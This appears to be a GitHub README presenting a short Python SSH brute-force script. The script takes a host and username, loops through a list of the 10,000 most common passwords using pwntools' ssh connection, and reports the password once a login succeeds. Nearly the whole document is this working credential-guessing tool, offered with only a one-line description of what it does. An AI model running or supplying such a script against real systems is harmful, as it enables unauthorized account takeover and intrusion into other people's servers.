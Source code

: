 This is a simple bruteforce attack.

We're going through a password list and making shh connections untill

__a)__ run out of passwords __b)__ get a successfull match.

```python
from pwn import *
import paramiko

host = input("Enter the host address: ")
username = input("Enter the username: ")

attempts = 0

with open("10k-most-common.txt", 'r') as password_list:
    for password in password_list:
        password = password.strip('\n')
        try:
            print("Attempt:{} | {}".format(attempts, password))
            response = ssh(host=host,user=username,password=password, timeout=1)
            if response.connected():
                print("Password found{}".format(password))
                response.close()
                break
            response.close()
        except Exception as e:
            print("Error:", e)
        attempts += 1
print('Finished running through password file')
```
